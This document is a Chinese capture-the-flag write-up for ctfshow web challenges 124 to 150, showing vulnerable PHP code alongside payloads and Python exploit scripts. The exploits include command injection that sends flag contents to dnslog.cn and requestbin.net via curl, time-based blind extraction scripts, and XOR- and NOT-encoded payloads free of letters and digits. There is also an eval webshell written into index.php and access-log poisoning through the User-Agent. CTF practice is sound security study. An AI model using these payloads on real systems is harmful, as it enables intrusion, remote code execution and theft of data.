

要求传入一个CTF_SHOW和一个CTF_SHOW.COM但是php通过get和post穿传时变量名中的(.,+,空格)会变成_

但php中有个特性就是如果传入[，它被转化为_之后，后面的字符就会被保留下来不会被替换

借鉴：https://blog.csdn.net/solitudi/article/details/120502141

payload：CTF_SHOW=&CTF[SHOW.COM=&fun=echo $flag

## WEB125

和123差不多但是过滤了flag和echo

从eval入手利用highlight_file回显flag

GET:?mumuzi=flag.php

POST:CTF_SHOW=&CTF[SHOW.COM=&fun=highlight_file($_GET[mumuzi])

## WEB126



非预期：通过$_REQUEST的参数逃逸

payload：get: ?0=var_export($GLOBALS);
post: CTF_SHOW=1&CTF[SHOW.COM=1&fun=eval($_REQUEST[0])


## WEB127 变量覆盖



要求ctf_show=ilove36d

extract() 函数从数组中将变量导入到当前的符号表，使用数组键名作为变量名，使用数组键值作为变量值

+和【都被过滤用空客代替

payload:?ctf show=ilove36d

## WEB128

```php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);

$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}

function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
}
```

call_user_func() 函数用于调用方法或者变量，第一个参数是被调用的函数，第二个是调用的函数的参数。

关于：

```
<?php
echo gettext("dotastnb");
//输出结果：dotastnb

echo _("ctfshownb");
//输出结果：ctfshownb
```

f1可以为__，即call_user_func(’_’,‘dotastnb’)就可以输出dotastnb

用到一个get_defined_vars

解释：get_defined_vars ( void ) : array 函数返回一个包含所有已定义变量列表的多维数组，这些变量包括环境变量、服务器变量和用户定义的变量。


payload：?f1=_&f2=get_defined_vars

内部执行过程：

```
var_dump(call_user_func(call_user_func($f1,$f2)));
var_dump(call_user_func(call_user_func(_,'get_defined_vars')));
var_dump(call_user_func(get_defined_vars));//输出数组
```

## WEB129

```
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['f'])){
    $f = $_GET['f'];
    if(stripos($f, 'ctfshow')>0){
        echo readfile($f);
    }
}
```

思路：第二个判断中f要包含ctfshow

通过目录穿越

payload：?f=/ctfshow/../../../var/www/html/flag.php

非预期：

?f=php://filter/ctfshow/resource=flag.php

## WEB130

```
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = $_POST['f'];
    if(preg_match('/.+?ctfshow/is', $f)){  
        die('bye!');
    }
    if(stripos($f, 'ctfshow') === FALSE){
        die('bye!!');
    }
    echo $flag;
} 
```

第一个正则中表示ctfshow前面不能有东西

第二个if判断ctfshow的位置不能为flase（可能想不让ctfshow在第0位可是===会判断类型使用0===flast为0）

```payload
payload：POST:f=ctfshow
```

实际考点：

PHP 为了防止正则表达式的拒绝服务攻击（reDOS），给 pcre 设定了一个回溯次数上限 pcre.backtrack_limit
 回溯次数上限默认是 100 万。如果回溯次数超过了 100 万，preg_match 将不再返回非 1 和 0，而是 false

## WEB131  正则表达式溢出

```
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = (String)$_POST['f'];

if(preg_match('/.+?ctfshow/is', $f)){
    die('bye!');
}
if(stripos($f,'36Dctfshow') === FALSE){
    die('bye!!');
}

echo $flag;

} 
```

考点：PHP 为了防止正则表达式的拒绝服务攻击（reDOS），给 pcre 设定了一个回溯次数上限 pcre.backtrack_limit
 回溯次数上限默认是 100 万。如果回溯次数超过了 100 万，preg_match 将不再返回非 1 和 0，而是 false

exp：

```python
import requests
url = "http://8b6b53a0-d082-4c0b-a21d-6d4ec4199440.challenge.ctf.show/"
data = {
    'f': 'xiaobai'*170000+'36Dctfshow'
}
res = requests.post(url=url,data=data)
print(res.text)
```

通过脚本发送一个f，f中有xiaobai*17000次+36Dctfshow来绕过正则


## WEB132

```
#error_reporting(0);
include("flag.php");
highlight_file(__FILE__);

if(isset($_GET['username']) && isset($_GET['password']) && isset($_GET['code'])){
    $username = (String)$_GET['username'];
    $password = (String)$_GET['password'];
    $code = (String)$_GET['code'];

if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin"){
    
    if($code == 'admin'){
        echo $flag;
    }
    
}

} 
```

||只要满足一个就可以了

构造username=admin

然后code=admin突然就可以了

$code === mt_rand(1,0x36D)的考点没弄明白只知道是一个更好的生成随机函数

```
payload：?username=admin&password=&code=admin
```


## WEB133 curl 带出

```
error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}
```

eval中被限制6个字符

利用curl外带数据

```
payload:?F=`$F`; curl `cat flag.php|grep "flag"`.di5ab0.dnslog.cn
```

参考：https://blog.csdn.net/qq_46091464/article/details/109095382（作者本人的博客）

其他解法

bash盲注脚本

exp：

```
#!/usr/bin/env python3
#-*- coding:utf-8 -*-
#__author__: 颖奇L'Amore www.gem-love.com

import requests
import time as t
from urllib.parse import quote as urlen
url  = 'http://2505541e-7bbc-4055-b36b-00c8454b850e.challenge.ctf.show/?F=`$F%20`;'
alphabet = ['{','}', '.', '@', '-','_','=','a','b','c','d','e','f','j','h','i','g','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','A','B','C','D','E','F','G','H','I','J','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5','6','7','8','9']

result = ''
for i in range(1,50):
	for char in alphabet:

		# payload = "if [ `ls  | grep 'flag' |cut -c{}` = '{}' ];then sleep 5;fi".format(i,char) #flag.php

​		payload = "if [ `cat flag.php | grep 'flag' |cut -c{}` = '{}' ];then sleep 5;fi".format(i,char)

		# data = {'cmd':payload}

​		try:
​			start = int(t.time())
​			r = requests.get(url+payload)

			# r = requests.post(url, data=data)

​			end = int(t.time()) - start
​			if end >= 3:		
​				result += char
​				print("Flag: "+result)
​				break
​		except Exception as e:
​			print(e)
```


## WEB134

```
highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
}
```

```php
parse_str():把查询字符串解析到变量中
extract():函数从数组中将变量导入到当前的符号表  
```

```
parse_str($_SERVER['QUERY_STRING']);
var_dump($_POST);
先会以数组来输出，然后extract就成了正常的传参
    ?_POST[a]=dotast
    就会输出array(1) { ["a"]=> string(6) "dotast" }，再使用extract函数，就会变成$a=dotast
```

```
payload:GET:?_POST[key1]=36d&_POST[key2]=36d
```


## WEB135

133plus

增加了过滤curl，用\绕过

```
cu\rl https://requestbin.net/r/d6dln1sn?q=`ca\t flag.php | gr\ep flag | bas\e64`
```

解法二：

先提取前面六个字符触发F=$F，就可以将flag拷贝到1.txt中

```
payload：?F=`$F `;cp flag.php 1.txt
```


## WEB136

```
 <?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?> 
```

正常思路exec是无回显的需要用到echo 但是>被过滤

发现一个tee

```
tee a.txt b.txt，将a.txt复制到b.txt
ls | tee b.txt,将ls命令的执行结果写入b.txt
```

利用tee回显

```
payload：
?c=ls /|tee ls
?c=tac /f149_15_h3r3|tee flag
```


## WEB137

```
error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}

call_user_func($_POST['ctfshow']); 
```

无参调用类的静态

构造call_user_func(“class::getFlag”)

```
payload：POST:ctfshow=ctfshow::getFlag
```

## WEB138

```
error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}

if(strripos($_POST['ctfshow'], ":")>-1){
    die("private function");
}

call_user_func($_POST['ctfshow']); 
```

对比138过滤了：

通过call_user_func入手

发现可以传入数组

```
payload：POST:ctfshow[0]=ctfshow&ctfshow[1]=getFlag
```


## WEB139

```
 <?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?> 
```

136加强版

用不了tee了，写入权限被ban了

直接挂大佬的脚本

exp：

```
import requests
url = 'http://135ef009-546d-48ab-9d0b-a2ed99b174b3.challenge.ctf.show'
res = ''
for j in range(1,60):
    for k in range(32,128):
        k = chr(k)
        payload = "?c="+f"if [ `cat /f149_15_h3r3 | cut -c {j}` == {k} ];then sleep 2;fi"
        try:
            requests.get(url=url+payload,timeout=(1.5,1.5))
        except:
            res += k
            print(res)
            break
res += ' '

```

真的很慢，拿到flag后套个套就可以了


## WEB140

```
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['f1']) && isset($_POST['f2'])){
    $f1 = (String)$_POST['f1'];
    $f2 = (String)$_POST['f2'];
    if(preg_match('/^[a-z0-9]+$/', $f1)){
        if(preg_match('/^[a-z0-9]+$/', $f2)){
            $code = eval("return $f1($f2());");
            if(intval($code) == 'ctfshow'){
                echo file_get_contents("flag.php");
            }
        }
    }
} 
```

根据代码可知，f1和f2必须是字母和数字。if判断是弱等于，需要`intval($code)`的值为0。

intval() 成功时，返回参数的 integer 值，失败时返回 0。空的 array 返回 0，非空的 array 返回 1。
 字符串有可能返回 0，取决于字符串最左侧的字符。

system(system())—> `f1=system&f2=system`

```
payload:f1=system&f2=system
```


## WEB141  无字符命令执行

```
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

if(is_numeric($v1) && is_numeric($v2)){
    if(preg_match('/^\W+$/', $v3)){
        $code =  eval("return $v1$v3$v2;");
        echo "$v1$v3$v2 = ".$code;
    }
}

}
```

先介绍一个特性：php中数字是可以和命令进行一些运算

例如 `1-phpinfo();`是可以执行phpinfo()命令的。
 这样就好说了。构造出1-phpinfo()-1就可以了，也就是说 v1=1&v2=1&v3=-phpinfo()-。

对v3处理

方法一：

运行脚本构造system(‘tac f*’)得到 `(~%8c%86%8c%8b%9a%92)(~%8b%9e%9c%df%99%d5)`

方法二：

## WEB142

payload:v1=0

## WEB143


无字母数字绕过正则表达式总结：https://blog.csdn.net/miuzzx/article/details/109143413

exp:

```
-- coding:UTF-8 --

Author:dota_st

Date:2021/2/10 12:56

blog: www.wlhhlc.top

import requests
import urllib
import re

生成可用的字符

def write_rce():
    result = ''
    preg = '[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;'
    for i in range(256):
        for j in range(256):
            if not (re.match(preg, chr(i), re.I) or re.match(preg, chr(j), re.I)):
                k = i ^ j
                if k >= 32 and k <= 126:
                    a = '%' + hex(i)[2:].zfill(2)
                    b = '%' + hex(j)[2:].zfill(2)
                    result += (chr(k) + ' ' + a + ' ' + b + '\n')
    f = open('xor_rce.txt', 'w')
    f.write(result)

根据输入的命令在生成的txt中进行匹配

def action(arg):
    s1 = ""
    s2 = ""
    for i in arg:
        f = open("xor_rce.txt", "r")
        while True:
            t = f.readline()
            if t == "":
                break
            if t[0] == i:
                s1 += t[2:5]
                s2 += t[6:9]
                break
        f.close()
    output = "(\"" + s1 + "\"^\"" + s2 + "\")"
    return (output)


def main():
    write_rce()
    while True:
        s1 = input("\n[+] your function：")
        if s1 == "exit":
            break
        s2 = input("[+] your command：")
        param = action(s1) + action(s2)
        print("\n[*] result:\n" + param)

main()
```

```
payload:v1=1&v3=*("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%0b%01%03%00%06%00"^"%7f%60%60%20%60%2a")*&v2=1
```


## WEB144

```
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

if(is_numeric($v1) && check($v3)){
    if(preg_match('/^\W+$/', $v2)){
        $code =  eval("return $v1$v3$v2;");
        echo "$v1$v3$v2 = ".$code;
    }
}

}

function check($str){
    return strlen($str)===1?true:false;
}
```

参考143

payload:?v1=1&v3=1&v2=*("%08%02%08%08%05%0d"^"%7b%7b%7b%7c%60%60")("%08%01%03%00%06%0c%01%07%00%0b%08%0b"^"%7c%60%60%20%60%60%60%60%2e%7b%60%7b");

## WEB145

```
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

这次异或`^`又被过滤了，可以用或`|`和取反`~`。

payload：

```
?v1=1&v3=|('%13%19%13%14%05%0d'|'%60%60%60%60%60%60')('%14%01%03%20%06%02'|'%60%60%60%20%60%28')|&v2=1
```

## WEB146

同145

## WEB147

```
if(isset($_POST['ctf'])){
    $ctfshow = $_POST['ctf'];
    if(!preg_match('/^[a-z0-9_]*$/isD',$ctfshow)) {
        $ctfshow('',$_GET['show']);
    }

}
```

通过hint发现可以利用create_function() 

关于这个函数：

```
<?php
$newfunc = create_function('$a,$b', 'return "ln($a) + ln($b) = " . log($a * $b);');
echo "New anonymous function: $newfunc\n";
echo $newfunc(2, M_E) . "\n";
?>
create_function() 会创造一个匿名函数 (lambda样式)  此处创建了一个叫  lamvda_1 的函数， 在第一个 echo 中 显示名字， 并在第二个echo 语句中执行了 此函数。
create_function() 函数 会在内部 执行 eval()  , 我们发现是执行了 后面的 return 语句，属于create_function()  中的第二个参数 string $code  的位置
```

个人理解是create_function() 会去执行它的第二个参数达到恶意代码执行

```
payload：
get:?show=}?><?=`tac f*`;//
post:ctf=\create_function
```


## WEB148

```
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(preg_match("/[A-Za-z0-9_\%\\|\~\'\,\.\:\@\&\*\+\- ]+/",$code)){
        die("error");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}

function get_ctfshow_fl0g(){
    echo file_get_contents("flag.php");
}
```

都被过滤了直接考虑异或构造

```
payload：

code=("%08%02%08%09%05%0d"^"%7b%7b%7b%7d%60%60")("%09%01%03%01%06%02"^"%7d%60%60%21%60%28");
```


## WEB149

```
$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}

file_put_contents($_GET['ctf'], $_POST['show']);

$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}
```

思路file_put_contents($_GET['ctf'], $_POST['show']);这里可以将show的内容写入ctf中

那么下面正则了index.php就往这里面写一句话

payload：

```
ctf=index.php
show=<?php eval($_POST[a]);?>
a=system("ls");
```


## WEB150

```
 <?php
include("flag.php");
error_reporting(0);
highlight_file(__FILE__);

class CTFSHOW{
    private $username;
    private $password;
    private $vip;
    private $secret;

function __construct(){
    $this->vip = 0;
    $this->secret = $flag;
}

function __destruct(){
    echo $this->secret;
}

public function isVIP(){
    return $this->vip?TRUE:FALSE;
    }
}

function __autoload($class){
    if(isset($class)){
        $class();
}

}

#过滤字符
$key = $_SERVER['QUERY_STRING'];
if(preg_match('/\_| |\[|\]|\?/', $key)){
    die("error");
}
$ctf = $_POST['ctf'];
extract($_GET);
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}

if($isVIP && strrpos($ctf, ":")===FALSE){
    include($ctf);
}
```

在网上看到了一个非预期往日志走写入一句话


日志包含，UA写一句话。`QUERY_STRING`和`extract`使isvip为1（web127）

exp：

```
import requests
url = "http://888cbe1b-d96b-4304-9502-4ba090d23aee.challenge.ctf.show/" + "?isVIP=1"
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0<?php @eval($_POST[1]);?>'
}
data = {
    'ctf': '/var/log/nginx/access.log',
    '1':'system("tac f*");'
}
r = requests.post(url=url, headers=headers, data=data).text
print(r)
```

## WEB150_P

对比150过滤了log不能日记包含绕过了

看hint：

这个题一点点小坑__autoload()函数不是类里面的 __autoload — 尝试加载未定义的类 最后构造?..CTFSHOW..=phpinfo就可以看到phpinfo信息啦 原因是..CTFSHOW..解析变量成__CTFSHOW__然后进行了变量覆盖，因为CTFSHOW是类就会使用 __autoload()函数方法，去加载，因为等于phpinfo就会去加载phpinfo 接下来就去getshell啦

直接payload：?..CTFSHOW..=phpinfo  flag就在信息里
